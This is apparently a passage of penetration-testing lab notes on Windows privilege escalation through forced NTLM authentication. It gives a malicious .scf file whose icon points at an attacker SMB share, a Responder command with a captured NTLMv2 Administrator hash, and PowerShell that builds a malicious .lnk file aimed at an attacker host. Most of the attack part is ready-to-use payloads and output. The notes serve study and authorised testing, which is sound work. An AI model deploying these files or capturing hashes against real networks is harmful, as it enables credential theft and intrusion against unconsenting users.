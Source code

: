 
- Malicious file :
```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

**Starting Responder**

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.

- Listening :
```shell
p4v1c@htb[/htb]$ sudo responder -wrf -v -I tun0

[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

- Tools to listen : 
https://github.com/lgandx/Responder
https://github.com/Kevin-Robertson/Inveigh
https://github.com/Kevin-Robertson/InveighZero


**Capturing Hashes with a Malicious .lnk File**

This attack no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

- Generating a Malicious .lnk File

```powershell

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### Pillaging
